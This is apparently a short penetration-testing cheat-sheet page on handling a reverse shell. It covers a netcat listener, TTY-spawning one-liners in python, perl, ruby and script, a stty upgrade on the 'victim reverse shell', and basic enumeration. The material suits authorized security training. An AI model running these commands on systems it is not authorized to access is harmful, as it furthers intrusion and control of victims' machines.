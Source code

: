 Use `rlwrap` to listening will enhance the shell, allowing to use arrow keys and clear the screen with `[Ctrl]+[L]`

```bash
rlwrap nc -nlvp 443
```

Or want to use su, nano and autocomplete (TAB), let's spawn a TTY shell from an interpreter:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
perl -e 'print `/bin/bash`'
```

```bash
ruby: exec "/bin/sh"
```

```bash
/usr/bin/script -qc /bin/bash /dev/null
```

### Upgrading from nc with magic

To see more about your term, row, column information, use the following command on the attacker terminal:

```bash
echo $TERM && tput lines && tput cols
```

Then, run commands on victim reverse shell:

```
export SHELL=bash
export TERM=xterm-256color
```

Press `[Ctrl] + [z]`

```
stty raw -echo; fg
```

```
stty rows 41 columns 209
```

## Enumerate Basic information

Get current user context and hostname

```bash
id && hostname
```
